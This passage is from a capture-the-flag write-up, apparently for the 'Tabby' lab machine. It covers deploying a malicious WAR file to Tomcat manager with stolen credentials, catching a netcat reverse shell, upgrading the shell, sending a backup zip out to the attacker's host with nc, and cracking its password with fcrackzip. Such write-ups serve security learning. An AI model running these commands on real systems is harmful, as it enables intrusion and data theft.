 `curl -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war 'http://10.10.10.194:8080/manager/text/deploy?path=/shell'`
```
OK - Deployed application at context path [/shell]
```

### shell as tomcat

* start netcat and trigger `shell` file from `http://10.10.10.194:8080/shell/`

	`curl 10.10.10.194:8080/shell/`
	
	`nc -lnvp 4141`

	  listening on [any] 4141 ...
	  connect to [10.10.15.151] from (UNKNOWN) [10.10.10.194] 58040
	  id
	  uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)

# user escalation

* **Shell Upgrade**

 	  id 
 	  uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
 	  python3 -c 'import pty;pty.spawn("bash")'    
 	  tomcat@tabby:/var/lib/tomcat9$ ^Z
 	  [1]+  Stopped                 nc -nvlp 4141
 	  rj@whoisrj:~/vulnBoxes/boxes/tabby$ stty raw -echo; fg
 	  nc -nvlp 4141
 	  
 	  tomcat@tabby:/var/lib/tomcat9$ reset
	  Terminal type? xterm
	  tomcat@tabby:~$ export SHELL=bash
	  tomcat@tabby:~$ export TERM=xterm-256color
	  tomcat@tabby:~$ stty rows 49 columns 234

* in `/var/www/html/files` there is a backup file owned by user `ash`

	  tomcat@tabby:/var/www/html/files$ ls -lsh
	   12K -rw-r--r-- 1 ash  ash  8.6K Jun 16 13:42 16162020_backup.zip                           

* **Load backup file in my local machine**

	  tomcat@tabby:var/www/html/files$ nc -w 4 10.10.15.151 4242 < 16162020_backup.zip
	  rj@whoisrj:~$ nc -nvlp 4242 > 16162020_backup.zip
	    
* **crack zip using fcrackzip**

	`fcrackzip 16162020_backup.zip -v -uDp /usr/share/wordlists/rockyou.txt`
	  
	  'var/www/html/assets/' is not encrypted, skipping
	  found file 'var/www/html/favicon.ico', (size cp/uc    338/   766, flags 9, chk 7db5)
	  'var/www/html/files/' is not encrypted, skipping
	  found file 'var/www/html/index.php', (size cp/uc   3255/ 14793, flags 9, chk 5935)
	  found file 'var/www/html/logo.png', (size cp/uc   2906/  2894, flags 9, chk 5d46)
	  found file 'var/www/html/news.php', (size cp/uc    114/   123, flags 9, chk 5a7a)
	  found file 'var/www/html/Readme.txt', (size cp/uc    805/  1574, flags 9, chk 6a8b)
